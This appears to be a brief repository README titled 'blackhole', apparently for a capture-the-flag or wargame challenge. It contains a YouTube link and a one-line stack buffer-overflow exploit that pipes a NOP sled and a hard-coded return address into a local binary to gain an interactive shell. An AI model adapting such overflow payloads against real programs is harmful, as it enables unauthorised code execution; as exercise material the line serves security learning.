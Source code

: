 # blackhole

https://www.youtube.com/watch?time_continue=5&v=uAgFf0sC8hM

#	(python -c 'print 90*"\x90"+"\x84\x64\x04\x08"' ; cat) | ./exec
